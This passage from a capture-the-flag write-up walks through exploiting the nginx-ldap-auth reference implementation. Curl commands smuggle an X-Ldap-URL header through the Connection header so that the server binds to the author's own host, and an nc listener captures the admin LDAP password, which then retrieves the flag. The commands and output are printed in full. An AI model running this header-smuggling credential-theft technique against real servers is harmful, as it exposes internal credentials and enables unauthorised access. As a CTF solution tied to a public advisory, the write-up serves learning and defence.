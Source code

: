 And if we check our server:

```bash
root@4rt.one ~ # nc -lp 100
adminpassword,dc=example,dc=org�
```

So we were able to overwrite the default ldap server, and the nginx ldap thing tried to connect to our server with the internal password!

UPD. it turned out that the vulnerable nginx-ldap server was from the official [nginxinc github](https://github.com/nginxinc/nginx-ldap-auth). And the security advisory is posted [here](https://www.nginx.com/blog/addressing-security-weaknesses-nginx-ldap-reference-implementation/).

## Exploit

So the full exploit is:

1. Connect to the server with our server in the `X-Ldap-Header`:
```html
% curl proxyhell.ctfz.one -H "Connection: X-Real-Ip" -H "Authorization: basic YWRtaW46d3Jvbmc=" -H "X-Ldap-URL: ldap://4rt.one:100"
<html>
<head><title>500 Internal Server Error</title></head>
<body>
<center><h1>500 Internal Server Error</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

2. Check logs of our server:
```bash
root@4rt.one ~ # nc -lp 100
0A`<▒cn=admin,dc=example,dc=org�@dminpasswordisverysecure!2
```
*If you don't see a full password you can try to pipe the output of nc to xxd: `nc -lp 100 | xxd`*

3. Resend the request with a valid authorization header:
```bash
% echo -n "admin:@dminpasswordisverysecure\!2" | base64
YWRtaW46QGRtaW5wYXNzd29yZGlzdmVyeXNlY3VyZSEy
```
```html
% curl proxyhell.ctfz.one -H "Connection: X-Real-Ip" -H "Authorization: basic YWRtaW46QGRtaW5wYXNzd29yZGlzdmVyeXNlY3VyZSEy"
<html>
<body>
<h1>CTFZone{W3_l0v3_@_l0t_pr0xy_@nd_bug9_1n_th3m}</h1>
</body>
</html>
```

## Not the end
